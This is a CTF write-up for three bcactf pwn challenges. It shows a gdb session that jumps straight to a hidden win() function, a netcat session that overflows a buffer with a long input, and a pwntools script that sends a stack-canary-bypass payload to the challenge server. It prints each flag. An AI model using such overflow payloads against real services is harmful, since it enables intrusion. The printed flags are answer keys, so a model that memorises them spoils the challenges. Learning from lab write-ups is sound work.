

# pwn/Inaccessible
## Challenge Description
I wrote a function to generate the flag, but don't worry, I bet you can't access it!

## Hint
* you could reverse engineer the function, but it's not necessary
* see if you can use any debugging tools to just call the function

## Resoruces

[chall](../assets/scripts/inaccessible/chall)

## Solution
On checking the binary, there is nothing in main() function but `win() function has the flag`.

The problem is that that the `main() directly terminates the program without ever referencing the win()`, so we need to find a way to access the win().

main()



win()


Win also refers to function f(), c() but we can directly get to win() function, we won't have to reverse everything.

To achieve this, we can put a `breakpoint in main()` before it terminates and j`ump to win` function using `gdb`.

```console
gdb ./chall 
GNU gdb (Ubuntu 12.1-0ubuntu1~22.04) 12.1
Copyright (C) 2022 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<https://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word"...
pwndbg: loaded 156 pwndbg commands and 46 shell commands. Type pwndbg [--shell | --all] [filter] for a list.
pwndbg: created $rebase, $base, $ida GDB functions (can be used with print/break)
Reading symbols from ./chall...
(No debugging symbols found in ./chall)
------- tip of the day (disable with set show-tips off) -------
heap_config shows heap related configuration
pwndbg> info functions 
All defined functions:

Non-debugging symbols:
0x00000000004003c8  _init
0x0000000000400400  puts@plt
0x0000000000400410  memset@plt
0x0000000000400420  __libc_start_main@plt
0x0000000000400430  __gmon_start__@plt
0x0000000000400440  _start
0x0000000000400470  deregister_tm_clones
0x00000000004004b0  register_tm_clones
0x00000000004004f0  __do_global_dtors_aux
0x0000000000400510  frame_dummy
0x0000000000400536  c
0x0000000000400599  f
0x00000000004005ea  win
0x00000000004006b8  main
0x00000000004006d0  __libc_csu_init
0x0000000000400740  __libc_csu_fini
0x0000000000400744  _fini
pwndbg> b *main
Breakpoint 1 at 0x4006b8
pwndbg> r
Starting program: /home/sora/ctf/chall 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

Breakpoint 1, 0x00000000004006b8 in main ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
─────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]──────────────────────────
*RAX  0x4006b8 (main) ◂— push rbp
 RBX  0x0
*RCX  0x4006d0 (__libc_csu_init) ◂— push r15
*RDX  0x7fffffffe118 —▸ 0x7fffffffe44e ◂— 'SHELL=/bin/bash'
*RDI  0x1
*RSI  0x7fffffffe108 —▸ 0x7fffffffe439 ◂— '/home/sora/ctf/chall'
*R8   0x7ffff7e1bf10 (initial+16) ◂— 0x4
*R9   0x7ffff7fc9040 (_dl_fini) ◂— endbr64 
*R10  0x7ffff7fc3908 ◂— 0xd00120000000e
*R11  0x7ffff7fde660 (_dl_audit_preinit) ◂— endbr64 
*R12  0x7fffffffe108 —▸ 0x7fffffffe439 ◂— '/home/sora/ctf/chall'
*R13  0x4006b8 (main) ◂— push rbp
 R14  0x0
*R15  0x7ffff7ffd040 (_rtld_global) —▸ 0x7ffff7ffe2e0 ◂— 0x0
*RBP  0x1
*RSP  0x7fffffffdff8 —▸ 0x7ffff7c29d90 (__libc_start_call_main+128) ◂— mov edi, eax
*RIP  0x4006b8 (main) ◂— push rbp
──────────────────────────────────[ DISASM / x86-64 / set emulate on ]───────────────────────────────────
 ► 0x4006b8 <main>                 push   rbp
   0x4006b9 <main+1>               mov    rbp, rsp
   0x4006bc <main+4>               mov    edi, 0x400754
   0x4006c1 <main+9>               call   puts@plt                      <puts@plt>
 
   0x4006c6 <main+14>              mov    eax, 0
   0x4006cb <main+19>              pop    rbp
   0x4006cc <main+20>              ret    
 
   0x4006cd                        nop    dword ptr [rax]
   0x4006d0 <__libc_csu_init>      push   r15
   0x4006d2 <__libc_csu_init+2>    mov    r15d, edi
   0x4006d5 <__libc_csu_init+5>    push   r14
────────────────────────────────────────────────[ STACK ]────────────────────────────────────────────────
00:0000│ rsp 0x7fffffffdff8 —▸ 0x7ffff7c29d90 (__libc_start_call_main+128) ◂— mov edi, eax
01:0008│     0x7fffffffe000 ◂— 0x0
02:0010│     0x7fffffffe008 —▸ 0x4006b8 (main) ◂— push rbp
03:0018│     0x7fffffffe010 ◂— 0x1ffffe0f0
04:0020│     0x7fffffffe018 —▸ 0x7fffffffe108 —▸ 0x7fffffffe439 ◂— '/home/sora/ctf/chall'
05:0028│     0x7fffffffe020 ◂— 0x0
06:0030│     0x7fffffffe028 ◂— 0x764ca1f2be928942
07:0038│     0x7fffffffe030 —▸ 0x7fffffffe108 —▸ 0x7fffffffe439 ◂— '/home/sora/ctf/chall'
──────────────────────────────────────────────[ BACKTRACE ]──────────────────────────────────────────────
 ► 0         0x4006b8 main
   1   0x7ffff7c29d90 __libc_start_call_main+128
   2   0x7ffff7c29e40 __libc_start_main+128
   3         0x400469 _start+41
─────────────────────────────────────────────────────────────────────────────────────────────────────────
pwndbg> jump *win
Continuing at 0x4005ea.
bcactf{W0w_Y0u_m4d3_iT_b810c453a9ac9}
[Inferior 1 (process 75259) exited with code 046]

```

## Flag
`bcactf{W0w_Y0u_m4d3_iT_b810c453a9ac9}`

# pwn/Juggler 1
## Challenge Description
My friend here has got some issues... Mainly, he can't stop juggling.

P.S Dockerfile is provided but not necessary for Juggler
## Hint
He told me he was only good at juggling small words

## Resoruces
[chall](../assets/scripts/bjuggler/chall)
[Dockerfile](../assets/scripts/bjuggler/Dockerfile)

## Solution
It's just simple `buffer overflow`. Give a `large string as input` and u will get the flag.

```console
nc challs.bcactf.com 32250
P.S the juggler animation is kind of tilted so you might need to look at it sideways.

Please help me, I am the juggler, but I can't stop juggling.
aGive me something for my left hand (not too heavy though please, I injured it)
(or QUIT to quit):
> aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Give me something for my right hand:
> Watch this!-----------------------------------------=--||
 aaaaaaaaaaaaaaaaaaaaaaa 3----\     __
                             O-|---<__
             aaaaaaaaaaa 3----/       
-----------------------------------------=--||
                         3----\     __
            aaaaaaaaaaa      O-|---<__
 aaaaaaaaaaaaaaaaaaaaaaa 3----/       
-----------------------------------------=--||
             aaaaaaaaaaa 3----\     __
aaaaaaaaaaaabcactf{juGGLy_Sup3R_JUgGLY_81520b089934c}      O-|---<__
                         3----/       
-----------------------------------------=--||
aaaaaaaaaaaabcactf{juGGLy_Sup3R_JUgGLY_81520b089934c} 3----\     __
                             O-|---<__
             aaaaaaaaaaa 3----/       
-----------------------------------------=--||
                         3----\     __
            aaaaaaaaaaa      O-|---<__
aaaaaaaaaaaabcactf{juGGLy_Sup3R_JUgGLY_81520b089934c}	 3----/       
Please help me, I am the juggler, but I can't stop juggling.
Give me something for my left hand (not too heavy though please, I injured it)
(or QUIT to quit):
> Give me something for my right hand:
> 
```

## Flag
`bcactf{juGGLy_Sup3R_JUgGLY_81520b089934c}`

# pwn/Canary Keeper
## Challenge Description
My friend gave me this executable, but it keeps giving me errors. Can you get the flag?


## Resoruces
[provided](../assets/scripts/canary-keeper-0/provided)

## Solution
main()


check_canary()


check_flag()


This is a basic `Stack Canary` chall. 

All we have to do is change the value of `v6 (initially FLAG)` while keeping the `v5 as canary`.

Are `input` is stored in `v4(73 characters)`, `canary` in `v5(7 characters)`, and `FLAG` is `compared with v6(array of 8 64-bit values(or 8 characters))`.

So to `bypass the canary_check`, we can input `73 char(for v4) + canary\0(for v5)` followed by flag. 

`\0` is added to canary as `v5 is 7 char`, so `last char is null byte`.

```py
from pwn import *

r = remote('challs.bcactf.com', 32101)

payload = cyclic(73) + b"canary\0"

r.sendline(payload)
r.interactive()
```

## Flag
`bcactf{s1mple_CANaRY_9b36bd9f3fd2f}`

